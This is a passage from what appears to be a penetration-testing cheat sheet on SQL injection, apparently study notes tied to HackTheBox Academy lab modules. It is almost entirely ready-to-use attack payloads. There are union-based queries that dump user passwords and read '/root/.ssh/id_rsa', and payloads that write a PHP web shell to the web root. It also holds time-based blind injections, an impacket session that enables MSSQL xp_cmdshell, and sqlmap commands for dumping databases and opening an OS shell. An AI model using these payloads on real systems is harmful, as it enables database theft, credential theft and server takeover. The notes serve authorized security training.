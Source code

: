 | `' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`                                                                | Example query                                                                                                                                                                                                          |
| **Union-based payloads**                                                                                                                 | **Description**                                                                                                                                                                                                        |
| `' ORDER BY 1-- //`                                                                                                                      | To discover the number of columns. It will order the results by a specific column, meaning it will fail whenever the selected column does not exist                                                                    |
| `%' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database()  -- //` | Query db info                                                                                                                                                                                                          |
| `%' UNION SELECT null, password, null FROM users  -- //`                                                                                 | Example query                                                                                                                                                                                                          |
| `%' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- //`                | Write a shell in root folder                                                                                                                                                                                           |
| `%' UNION SELECT null, user(), LOAD_FILE('/root/.ssh/id_rsa') , null, null FROM ilfreight.users  -- //`                                  | Read a file                                                                                                                                                                                                            |
| **Blind payloads**                                                                                                                       | **Description**                                                                                                                                                                                                        |
| `' AND IF (1=1, sleep(3),'false') -- //`                                                                                                 | **Time-based** SQLi. IF condition will always be true inside the statement itself, so it will return false if the user is non-existent                                                                                 |
| `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- //`                 | Write a shell in root folder                                                                                                                                                                                           |
**Attacking SQL Databases**: https://academy.hackthebox.com/module/116/section/1169

Enable code execution in MSSQL (`xp_cmdshell`):

```bash
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
root
```

Write a shell into a file in the server:

```bash
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

We can get an error with the above payload but the error is related to the incorrect return type, and should not impact writing the webshell on disk.

| **SQLMap**                                                                                                | **Description**                                                                                                                                                    |
| --------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user`                                             | Specify parameter user and use 1 as dummy value                                                                                                                    |
| `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump`                                      | Dump the entire database                                                                                                                                           |
| `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --os-shell`                                  | Gives us a fully interactive shell                                                                                                                                 |